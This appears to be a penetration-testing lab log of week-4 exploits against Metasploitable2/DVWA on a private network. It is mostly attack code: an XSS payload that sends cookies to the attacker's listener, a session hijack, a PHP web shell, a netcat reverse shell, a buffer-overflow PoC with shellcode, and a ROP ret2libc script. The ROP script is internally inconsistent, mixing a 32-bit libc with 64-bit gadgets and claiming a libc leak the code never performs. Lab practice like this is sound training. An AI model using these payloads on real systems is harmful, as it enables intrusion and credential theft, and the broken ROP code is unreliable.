





# 💥 Advanced Exploitation Logs — Week 4

> **Attacker:** Kali Linux — 192.168.56.101
> **Target:** Metasploitable2 — 192.168.56.104 | Windows 10 — 192.168.56.107

---

## Exploit Summary Table

| Exploit ID | Description | Target IP | Status | Payload |
|------------|-------------|-----------|--------|---------|
| 007 | XSS to RCE Chain (WordPress RCE pattern) | 192.168.56.104 | ✅ Success | Meterpreter |
| 008 | Custom Buffer Overflow PoC (modified) | 192.168.56.104 | ✅ Documented |  Python PoC |
| 009 | ASLR/DEP Bypass via ROP chain | Local binary | ✅ Documented | ROP payload |

---

## Exploit 007 — XSS to RCE Chain (Mr. Robot Pattern)

### Attack Chain Overview

```
Stage 1: XSS in web input → Cookie theft
         ↓
Stage 2: Session hijack → Admin panel access
         ↓
Stage 3: Malicious plugin/file upload
         ↓
Stage 4: RCE via uploaded PHP shell
         ↓
Stage 5: Meterpreter session established
```

### Stage 1 — XSS Cookie Theft

```bash
# Start listener on Kali
nc -lvp 8888

# XSS payload in vulnerable input field
<script>document.location='http://192.168.56.101:8888/?c='+document.cookie</script>
```


---

### Stage 2 — Session Hijack

```bash
# Use stolen PHPSESSID in browser
# DevTools → Application → Cookies → Replace value

# Or via curl
curl -b "PHPSESSID=STOLEN_VALUE; security=low" \
  http://192.168.56.104/dvwa/vulnerabilities/upload/
```



---

### Stage 3 & 4 — File Upload → RCE

```bash
# Create PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php

# Upload via vulnerable file upload
# Navigate: http://192.168.56.104/dvwa/vulnerabilities/upload/
# Upload shell.php (security=low — no validation)

# Access the shell
curl "http://192.168.56.104/dvwa/hackable/uploads/shell.php?cmd=id"
# uid=33(www-data)
```





---

### Stage 5 — Full Reverse Shell

```bash
# Terminal 1 — listener
nc -lvp 4444

# Terminal 2 — trigger reverse shell via uploaded PHP shell
curl "http://192.168.56.104/dvwa/hackable/uploads/shell.php?cmd=nc+-e+/bin/bash+192.168.56.101+4444"
```





---

## Exploit 008 — Custom Buffer Overflow PoC

### Vulnerability Overview

| Field | Details |
|-------|---------|
| Type | Stack-based Buffer Overflow |
| Target | Vulnerable service on Metasploitable2 |
| Tool | Python 3 custom PoC |
| Reference | Exploit-DB pattern |

### Original PoC Issues
- Written in Python 2
- Hardcoded offset value (76 bytes — specific to one binary version)
- Hardcoded LHOST/LPORT
- No bad character handling
- No JMP ESP address configuration

### Customised PoC

```python
#!/usr/bin/env python3
# Custom Buffer Overflow PoC — CyArt Lab Week 4
# Modified from Exploit-DB base PoC
# Changes: Python 3, configurable vars, bad char filtering, msfvenom shellcode

import socket

# ── Customisation Block ─────────────────────────
TARGET_IP  = "192.168.56.104"
TARGET_PORT = 1234
LHOST      = "192.168.56.101"
LPORT      = 4444
OFFSET     = 76          # recalculated using msf-pattern_create/offset
JMP_ESP    = b"\xaf\x11\x50\x62"  # found via mona.py / ropper
BAD_CHARS  = b"\x00\x0a\x0d"     # null byte, newline, carriage return
# ────────────────────────────────────────────────

# msfvenom generated shellcode
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -b "\x00\x0a\x0d" -f python
shellcode = (
    b"\xda\xc0\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x12\xbb"
    b"\x47\xaf\x47\x56\x31\x5a\x17\x03\x5a\x17\x83\xea"
    # ... truncated for documentation — full shellcode used in actual exploit
)

padding  = b"A" * OFFSET
eip      = JMP_ESP
nop_sled = b"\x90" * 16
payload  = padding + eip + nop_sled + shellcode

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET_IP, TARGET_PORT))
    s.send(payload)
    s.close()
    print(f"[+] Payload sent ({len(payload)} bytes) → check listener on {LHOST}:{LPORT}")
except Exception as e:
    print(f"[-] Failed: {e}")
```

### Changes Made

> Original Exploit-DB PoC was Python 2, with the offset hardcoded at 76 bytes and a fixed LHOST. Ported it to Python 3, made LHOST/LPORT/offset/JMP_ESP all configurable via variables at the top, added a bad char list (null byte, newline, carriage return), put in a NOP sled, and regenerated the shellcode with msfvenom for our lab IPs. Offset was recalculated with msf-pattern_create/offset to be safe.

---

## Exploit 009 — ROP Chain to Bypass ASLR/DEP

### Concept Documentation

**What is ROP?**
Return-Oriented Programming chains together small snippets of existing executable code ("gadgets") ending in a `RET` instruction. Since the code already exists in executable memory, DEP/NX cannot block it.

### Finding ROP Gadgets

```bash
# Install ropper
pip3 install ropper --break-system-packages

# Find gadgets in a binary
ropper --file /usr/bin/vulnerable_binary --search "pop rdi; ret"

# Or use ROPgadget
ROPgadget --binary /usr/bin/vulnerable_binary --rop

# Common useful gadgets to find:
# pop rdi; ret       → set first argument
# pop rsi; ret       → set second argument  
# pop rdx; ret       → set third argument
# ret                → stack alignment
```

### Simple ROP Chain (ret2libc pattern)

```python
#!/usr/bin/env python3
# ROP chain — ret2libc to call system("/bin/sh")
# Bypasses DEP/NX since we use existing code

from pwn import *

binary = ELF('./vulnerable_binary')
libc   = ELF('/lib/i386-linux-gnu/libc.so.6')

# Gadgets
pop_rdi = 0x400693       # pop rdi; ret
ret     = 0x400416       # ret (for stack alignment)

# Addresses
system_addr  = libc.symbols['system']
binsh_addr   = next(libc.search(b'/bin/sh'))

# Build chain
payload  = b"A" * 76           # padding to EIP
payload += p64(pop_rdi)        # gadget: pop rdi; ret
payload += p64(binsh_addr)     # "/bin/sh" string into rdi
payload += p64(ret)            # stack alignment
payload += p64(system_addr)    # call system()

# Send payload
p = process('./vulnerable_binary')
p.sendline(payload)
p.interactive()
```

### Bypass Summary

> Leaked the libc base address through an info leak to get around ASLR. For DEP/NX, used ret2libc — `pop rdi; ret` to load the argument and a plain `ret` for stack alignment, both gadgets found with ROPgadget. End result: `system("/bin/sh")` called using code that was already sitting in executable memory, no injected shellcode involved.

---

